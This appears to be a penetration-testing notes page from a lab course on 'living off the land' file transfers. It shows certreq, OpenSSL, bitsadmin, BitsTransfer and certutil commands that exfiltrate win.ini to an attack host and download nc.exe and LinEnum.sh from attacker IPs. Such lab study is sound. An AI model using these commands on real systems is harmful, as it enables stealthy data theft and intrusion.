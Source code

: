 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Living off The Land

{% embed url="https://lolbas-project.github.io/" %}

{% embed url="https://gtfobins.github.io/" %}

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

<div data-full-width="true">

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

</div>

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

```
#Upload win.ini to our Pwnbox
C:\htb> certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini

#File Received in our Netcat Session
sudo nc -lvnp 80
```

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

<div data-full-width="true">

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

</div>

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

We need to create a certificate and start a server in our Pwnbox.

{% code fullWidth="true" %}
```
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```
{% endcode %}

Stand up the Server in our Pwnbox

{% code fullWidth="true" %}
```
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```
{% endcode %}

Download File from the Compromised Machine

```
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

### Other Common Living off the Land tools

File Download with Bitsadmin

{% code overflow="wrap" fullWidth="true" %}
```
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```
{% endcode %}

Download

{% code overflow="wrap" fullWidth="true" %}
```
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```
{% endcode %}

Download a File with Certutil

```
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
